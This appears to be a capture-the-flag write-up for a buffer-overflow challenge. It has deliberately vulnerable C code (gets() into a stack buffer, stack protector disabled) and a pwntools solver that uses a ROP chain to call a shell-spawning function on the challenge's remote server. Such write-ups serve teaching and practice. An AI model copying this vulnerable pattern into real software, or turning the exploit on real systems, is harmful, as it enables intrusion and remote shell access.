 ## Args
![challenge](../images/args.png)

### Source Code
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

//gcc main.c -o main -fno-stack-protector -no-pie
int setup(){
    setvbuf(stderr, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    return setvbuf(stdin, NULL, _IONBF, 0);
}
int win(int a, int b){
    if (a == 0xdeadbeef && b == 0xcafebabe){
        system("/bin/sh");
    } else {
        puts("You are in but keep trying");
    }
}
int main(){
    setup();
    char buf[50];
    printf("double room for ?:");
    gets(buf);
    return 0;
}
```
### Overview
This challenge is a bit similar to the ![BabyBOF](../BabyBOF) but here we have arguments to pass.
In order to do that we can use ```ROP``` from pwntools library, that makes our lives more better.

### Solver
```py
from pwn import * 

elf = context.binary = ELF('main')
con = remote('20.216.40.184',10003)

offset = b'A' * 72

rop = ROP(elf)
rop.win(0xdeadbeef,0xcafebabe)

log.info(rop.dump())
payload = offset + rop.chain() 

con.send(payload)
con.interactive()
con.close()
```
